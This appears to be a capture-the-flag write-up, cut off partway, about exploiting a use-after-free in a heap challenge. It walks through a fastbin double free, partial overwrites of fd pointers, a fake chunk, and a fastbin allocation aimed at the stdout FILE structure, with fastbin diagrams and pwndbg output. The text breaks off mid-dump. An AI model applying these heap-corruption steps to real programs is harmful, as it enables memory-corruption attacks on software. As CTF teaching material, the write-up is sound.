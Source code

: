 ## 0x3. Analysis

In this challenge, they allow you to allocate a size <= 0x78, 16 times and store the address into an array in bss. The most noticeable point is that you can free any chunk you want, but they do not assign the element in the array back to null after freed, thus we can use use-after-free attack to trigger double-free bug.

## 0x4. Exploit

Create 2 chunks, free the first chunk, and free the second one, then free the first chunk again, thus you can trigger double-free bug. For example I allocate two 0x68 bytes - chunks, the fastbins will be like that:

```c
0x70: chunk 1 -> chunk 2 -> chunk 1 -> chunk 2 -> chunk 1 -> ....
```

When you call malloc (0x68), they will return you the chunk1 still keeping fd pointer at chunk1 + 0x16, which is chunk2's address. As a result, you can overwrite any offset to the first byte to make fd pointer of chunk1 point to everywhere on heap. For example, I overwrite ```b'\x20'``` to the first byte, thus I will have the fastbins like that:
Because the first chunk, I allocate in this challenge, is always placed at the beginning of heap, the first byte is always null.

```c
0x70: chunk2 -> chunk1 -> chunk1 + 0x20
```


You can setup your chunks like that: 

![image](/images/chunk.jpg)


After getting your fake chunk, you can edit the size of your chunk by freeing chunk1, and malloc (0x68) again. Free your fake chunk to place it into unsortedbin. Now the fake chunk's fd points to main_arena. Change the offset of fd pointer to have a fastbin like that:

```c
0x70: chunk1 -> chunk2 -> chunk1 -> chunk1 + 0x20 -> _IO_2_1_stdout_ - 0x43
```

Now, you can overwrite ```_IO_2_1_stdout``` (an ```_IO_FILE_plus``` struct), and it will look like that before you overwrite: 

```c
pwndbg> info address _IO_2_1_stdout_ 
Symbol "_IO_2_1_stdout_" is static storage at address 0x7ffff7bc4620.


pwndbg> p *(struct _IO_FILE_plus *) 0x7ffff7bc4620
$1 = {
  file = {
    _flags = -72537977,
    _IO_read_ptr = 0x7ffff7bc46a3 <_IO_2_1_stdout_+131> "\n",
    _IO_read_end = 0x7ffff7bc46a3 <_IO_2_1_stdout_+131> "\n",
    _IO_read_base = 0x7ffff7bc46a3 <_IO_2_1_stdout_+131> "\n",
    _IO_write_base = 0x7ffff7bc46a3 <_IO_2_1_stdout_+131> "\n",
    _IO_write_ptr = 0x7ffff7bc46a3 <_IO_2_1_stdout_+131> "\n",
    _IO_write_end = 0x7ffff7bc46a3 <_IO_2_1_stdout_+131> "\n",
    _IO_buf_base = 0x7ffff7bc46a3 <_IO_2_1_stdout_+131> "\n",
    _IO_buf_end = 0x7ffff7bc46a4 <_IO_2_1_stdout_+132> "",
    _IO_save_base = 0x0,
    _IO_backup_base = 0x0,
    _IO_save_end = 0x0,
    _markers = 0x0,
    _chain = 0x7ffff7bc38e0 <_IO_2_1_stdin_>,
    _fileno = 1,
```